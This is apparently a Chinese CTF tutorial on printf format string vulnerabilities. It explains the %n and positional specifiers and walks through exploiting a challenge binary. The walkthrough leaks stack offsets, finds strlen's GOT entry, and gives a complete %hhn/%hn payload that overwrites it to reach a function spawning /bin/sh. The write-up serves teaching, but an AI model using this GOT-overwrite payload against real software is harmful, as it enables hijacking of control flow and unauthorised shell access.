



这个问题与主题没太大关系，还是提一提吧
在ubuntu16.10后gcc编译时默认加上了参数-pie，也就是运行地址随机化，可以更好的抵挡攻击，防pwn，但是出题就比较坑爹了
只需要编译时加上参数-no-pie即可
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。
以上摘自wiki:格式化字符串
为了格式化字符串，需要使用占位符用于指明输出的参数值如何格式化。
在c语言中的printf这一大类函数中（包括vprintf，sprintf等），使用%d,%c,%s等占位符对字符串进行格式化
然而，一些特殊的用法往往被人们忽略了
%nx表示按16进制输出，不足n位的话在字符串前面补空格%0nx表示按16进制输出，不足n位的话在字符串前面补空格%n$x表示把第n个参数按16进制输出%n$08xprintf("%3$d.%d.%d.%d", 1, 2, 3);，则输出3.1.2.3long long这样8字节或者更多的参数时，指定参数可能会出错，需要具体情况具体分析printf("1234%n", &a)在c语言中，往往有输出字符串的场景，当输出一个字符串的一般写法为
printf("%s", str);
当一些程序员偷懒后就成为了
printf(str);
若是攻击者掌握了字符串，那么可以利用1中的特殊用法，对你的程序做一些奇怪的事情，从而pwn掉你的程序
由1可知道，%n可以写入数据，%nc等用法可以控制输出字符的长度从而控制数据的数值，结合指定参数，便可以对4字节内存进行读写
下面以一个题为例来说明
丢进ida后明显可以看到
read(0, str, 1023);
puts("Haha, your input is:");
printf(str);
明显的一个格式化字符串漏洞
又看到
void getflag()
{
system("/bin/sh");
}
发现没有地方调用getflag，考虑修改got表将下面的strlen的函数地址改为getflag的地址（其实不给getflag函数也可以做到，先考虑简单情况）。
首先先查询str相当于printf的第几个参数
命令中输入
(python -c "print('aaaa.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x')";)|./repeat
执行后结果为

a对应的16进制ascii码为61，由此可以看出第4个参数为str
执行下列语句
(python -c "print('aaaa.%4$08x')";)|./repeat
结果为

验证自己的语句为正确的
注:
$打开终端，输入
readelf -r repeat | grep strlen
结果为
0804a01c 00000607 R_386_JUMP_SLOT 00000000 strlen@GLIBC_2.0
可以看出strlen在got表中的位置为0x0804a01c
注:
ida可以看到下图

可以得知getflag的地址为0x0804853b
接下来构造字符串更改strlen函数地址即可
输入如下命令
(python -c "print('\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08%47c%4$hhn%74c%5$hhn%1919c%6$hn')";cat) | ./repeat
即拿到shell
注:
0x0804853b，数据过大，分成三次写入，分别写入0x3b， 0x85, 0x0804（否则会输出时间过长，甚至段错误）